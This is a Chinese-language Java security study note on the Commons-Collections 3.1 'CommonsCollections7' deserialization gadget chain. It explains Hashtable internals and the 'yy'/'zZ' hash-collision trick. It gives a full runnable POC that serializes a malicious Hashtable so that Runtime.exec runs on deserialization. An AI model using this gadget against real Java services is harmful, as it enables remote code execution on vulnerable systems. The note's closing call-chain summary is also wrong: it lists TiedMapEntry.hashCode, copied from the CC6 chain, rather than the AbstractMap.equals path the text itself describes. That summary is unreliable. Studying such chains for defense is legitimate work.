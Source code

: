 # 环境搭建
> 1. `JDK`版本：JDK1.8u66
> 2. `Commons-Collections`版本：3.1

> 利用`maven`来进行搭建，先创建一个`Maven`项目，不用选择任何`Maven`模板，`pom.xml`中内容如下，之后选择右侧的更新，让其自动导入包即可

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>commons-collections</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>

</project>
```

# 前置知识
## Hashtable
> `Hashtable`与`HashMap`类似，都是是一种`key-value`形式的哈希表

```java
[1] Hashtable 线程安全，HashMap 线程不安全
[2] HashMap 继承 AbstractMap，而 Hashtable 继承 Dictionary
[3] 两者内部基本都是使用“数组-链表”的结构，但是 HashMap 引入了红黑树的实现
[4] Hashtable 的 key-value 不允许为 null 值，但是 HashMap 则是允许的，后者会将 key=null 的实体放在 index=0 的位置
```

> 跟进`Hashtable`发现，在`readObject`方法中，会调用`reconstitutionPut()`方法，并在`reconstitutionPut()`方法中会调用`key.hashCode()`，后续的调用逻辑和`CommonsCollections6`链基本一致

<img src="./Java安全学习-Commons-Collections4567/23.png" alt="">

## 哈希碰撞机制
> 在[ProgrammerSought](https://www.programmersought.com/article/94401321514/)上给出的说法是

```
The so-called hash conflict, that is, the two key values ​​are calculated by the hash function to obtain the same hash value, and a subscript can only store one key, which produces a hash conflict, if the subscript one of the keys first Saved, the other key must find its own storage location by other means.
```
> 也就是说，当两个不同的`key`通过`hash()`方法计算出同一个`hash`值时，而一个下标只能存储一个`key`，这就产生了`hash`冲突

> 那么要如何构造出一个`hash`冲突呢，跟进`HashMap#hash`方法

<img src="./Java安全学习-Commons-Collections4567/27.png" alt="">

> 继续跟进`hashcode()`方法，根据`for`循环中的代码，不难推出`Hash`值的计算公式

<img src="./Java安全学习-Commons-Collections4567/28.png" alt="">

<img src="./Java安全学习-Commons-Collections4567/29.png" alt="">

> 这也就不难解释为什么`ysoserial`项目中的`CommonsCollections7`链中是`yy`和`zZ`了，需要时，利用`z3`来计算字符串位数不一样情况下的可能值即可

```python
ord("y") == 121
ord("z") == 122
ord("Z") == 90
"yy".hashCode() == 31 × 121 + 1 × 121 == 3872
"zZ".hashCode() == 31 × 122 + 1 × 90 == 3872
"yy".hashCode() == "zZ".hashCode() == 3872
```


# CommonsCollections7 分析
> 在`CommonsCollections`链中，利用`AbstractMap#equals`来触发对`LazyMap#get`方法的调用，这里的`m`如果是可控的话，那么设置`m`为`LazyMap`，就可以完成后面的链子构造

<img src="./Java安全学习-Commons-Collections4567/24.png" alt="">

> 继续跟进看看`equals`方法的调用点在哪，在前面的`Hashtable#reconstitutionPut`方法中存在着调用点：`e.key.equals(key)`，如果这里的`key`可控的话，上面的`m`也就是可控的

> 观察到在`readObject`方法中传递进去的`key`，相应的，那么在`writeObject`处也会存在`Hashtable#put`进入的值

<img src="./Java安全学习-Commons-Collections4567/25.png" alt="">

> 这里还需要注意一个点，由于`if`语句是用`&&`连接判断条件的，那么要执行到后面的`e.key.equals(key)`，就必须先要满足`e.hash == hash`，接着调用`equals`方法，这里利用到了`Hash`冲突(`Hash`碰撞)机制

<img src="./Java安全学习-Commons-Collections4567/26.png" alt="">

> 在`POC`中移除第二个`LazyMap`中的元素是因为`get`方法向当前的`map`添加了新元素，从而`map2`变成了两个元素

<img src="./Java安全学习-Commons-Collections4567/31.png" alt="">

## POC

```java
package CommonsCollections7;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 6:40 下午
 */
public class CommonsCollections7Gadget {

    public static void CC7() throws NoSuchFieldException, IllegalAccessException {
        Transformer[] faketransformer = new Transformer[]{};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(faketransformer);

        Map hashMap1 = new HashMap();
        Map hashMap2 = new HashMap();

        Map map1 = LazyMap.decorate(hashMap1, chainedTransformer);
        map1.put("yy", 1);
        Map map2 = LazyMap.decorate(hashMap2, chainedTransformer);
        map2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(map1, 1);
        hashtable.put(map2, 1);
        Class _class = chainedTransformer.getClass();
        Field field = _class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);
        map2.remove("yy");

        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(hashtable);
            objectOutputStream.close();

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC7();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
<img src="./Java安全学习-Commons-Collections4567/30.png" alt="">

# 调用链

```java
Hashtable.readObject()
   TiedMapEntry.hashCode()
        LazyMap.get()
            ChainedTransformer.transform()
                ConstantTransformer.transform()
                    InvokerTransformer.transform()
```

# 总结
> 主体思想是用`Hashtable`代替`HashMap`触发`LazyMap`，后续利用与`CommonsCollections6`链的`HashMap`利用方式基本一致